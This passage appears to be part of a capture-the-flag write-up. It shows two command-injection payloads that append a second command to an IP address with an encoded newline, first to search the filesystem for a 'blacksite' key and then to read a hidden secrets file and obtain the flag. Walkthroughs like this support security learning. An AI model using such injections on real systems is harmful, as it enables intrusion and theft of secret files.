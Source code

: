![Alt text](images/aether6.png "")

`8.8.8.8%0afind / -iname "*blacksite*key*" 2>/dev/null` since it told me to search for blacksite key I did exactly that to achieve the desired result 
![Alt text](images/aether7.png "")

`8.8.8.8%0atac /var/lib/aethercorp/archive/.secrets/blacksite_key.dat` finally after knowing the exact location of the key I got the flag by running this command